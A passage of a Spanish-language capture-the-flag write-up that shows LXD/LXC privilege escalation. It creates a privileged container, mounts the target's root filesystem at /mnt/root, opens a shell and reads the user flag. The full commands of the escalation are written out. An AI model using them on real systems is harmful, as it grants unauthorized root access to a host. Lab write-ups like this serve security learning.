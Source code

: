 Como vemos, tenemos la imagen pwned que es la que hemos creado nosotros. 

Ahora tendremos que ir ejecutando los siguientes comandos

Con este primer comando, estamos creando un contenedor con privilegios

```bash
lxc init [alias] ignite -c security.privileged=true
```

Ahora, estamos montando el disco duro de la máquina objetivo dentro del contenedor en /mnt/root

```bash
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
```

Por último, iniciamos y accedemos al contenedor

```bash
lxc start ignite
```

```bash
lxc exec ignite /bin/sh
```

No podemos ponernos una bash, pero bueno tenemos una sh 

Si ahora por ejemplo ejecutamos el comando id, veremos que somos root, pero aún no tendremos que hacer una cosita mas, ya que hasta ahora somos root pero solo dentro del contenedor, pero desde aquí no tenemos acceso a los archivos del equipo objetivo

```bash
id
```

![Imagen050](50.jpeg)


Ahora simplemente lo que tenemos que hacer es irnos a la ruta /mnt/root para ver todos los recursos de la máquina objetivo, que es donde se ha montado el sistema de la máquina objetivo 

```bash
cd /mnt/root
```
Ya simplemente nos queda buscar las Flags de usuario y de root y hacerles un cat

```bash
find / -type f -name user.txt 2>/dev/null
cat /mnt/root/home/jackshephard/user.txt
```
